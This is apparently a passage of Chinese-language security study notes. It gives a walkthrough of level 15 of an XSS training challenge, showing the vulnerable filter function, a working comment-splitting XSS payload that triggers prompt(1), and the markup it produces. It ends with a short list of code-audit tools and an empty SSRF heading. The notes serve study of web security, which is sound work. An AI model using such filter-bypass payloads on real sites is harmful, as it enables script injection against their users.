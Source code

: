 ```javascript

```

#### 15

```javascript
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

```html
与第 7 关类似，但是 /* 被过滤
那这里就可以用 HTML 的注释符
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>

源码将变成：
<p class="comment" title=""><svg><!--" data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt(1<!--" data-comment='{"id":2}'></p>
<p class="comment" title="-->)</script>" data-comment='{"id":3}'></p>
```


### alert(1) to win

## 代码审计

工具：

+   rips
+   seay
+   githack
+   stings, grep

思路：

+ 敏感函数回溯参数过程

+ 通读全文代码

+ 根据功能点定向审计

## SSRF

